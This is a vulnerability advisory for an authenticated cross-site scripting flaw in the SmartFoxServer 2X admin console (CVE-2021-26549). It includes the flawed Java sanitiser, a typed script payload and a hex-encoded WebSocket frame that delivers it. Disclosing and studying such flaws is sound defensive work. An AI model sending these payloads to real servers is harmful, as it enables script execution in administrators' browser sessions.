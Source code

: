     SmartFoxServer 2X 2.17.0 God Mode Console WebSocket XSS


    Vendor: gotoAndPlay()
    Product web page: https://www.smartfoxserver.com
    Affected version: Server: 2.17.0
                      Remote Admin: 3.2.6
                      SmartFoxServer 2X, Pro, Basic

    Summary: SmartFoxServer (SFS) is a comprehensive SDK for
    rapidly developing multiplayer games and applications
    with Adobe Flash/Flex/Air, Unity, HTML5, iOS, Universal
    Windows Platform, Android, Java, C++ and more. SmartFoxServer
    comes with a rich set of features, an impressive
    documentation set, tens of examples with their source,
    powerful administration tools and a very active support
    forum. Born in 2004, and evolving continuously since
    then, today SmartFoxServer is the leading middleware to
    create large scale multiplayer games, MMOs and virtual
    communities. Thanks to its simplicity of use, versatility
    and performance, it currently powers hundreds of projects
    all over the world, from small chats and turn-based games
    to massive virtual worlds and realtime games.

    Desc: Authenticated Cross-Site Scripting was discovered.
    Input passed to the AdminTool console is not properly
    sanitized before being returned to the user. This can be
    exploited to execute arbitrary HTML code in a user's browser
    session in context of an affected site.

    -----------------------------------------------------------------
    /ConsoleModuleReqHandler.java:
    ------------------------------

     private String checkHTML(String data) {
         if (data.indexOf(60) > -1 && data.indexOf("<span") == -1) {
             data = data.replaceAll("\\<", "<");
             return data.replaceAll("\\>", ">");
         }
         return data;

    -----------------------------------------------------------------

    Tested on: Windows (all) 64bit installer
               Linux/Unix 64bit installer
               MacOS (10.8+) 64bit installer
               Java 1.8.0_281
               Python 3.9.1
               Python 2.7.14


    Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                                @zeroscience


    Advisory ID: ZSL-2021-5626
    Advisory URL: https://www.zeroscience.mk/en/vulnerabilities/ZSL-2021-5626.php

    CVE ID: CVE-2021-26549
    CVE URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-26549
    NIST URL: https://nvd.nist.gov/vuln/detail/CVE-2021-26549


    29.01.2021

    --


    Typing payload:
    <script>confirm(document.URL)

    WebSocket payload:
    \x80\x00\x52\x12\x00\x03\x00\x01\x63\x02\x01\x00
    \x01\x61\x03\x00\x0D\x00\x01\x70\x12\x00\x03\x00
    \x01\x63\x08\x00\x0C\x63\x6F\x6E\x73\x6F\x6C\x65
    \x2E\x68\x69\x6E\x74\x00\x01\x72\x04\xFF\xFF\xFF
    \xFF\x00\x01\x70\x12\x00\x01\x00\x01\x63\x08\x00
    \x18\x3C\x73\x63\x72\x69\x70\x74\x3E\x63\x6F\x6E
    \x66\x69\x72\x6D\x28\x64\x6F\x63\x75\x6D\x65\x6E
    \x74\x2E\x55\x52\x4C\x29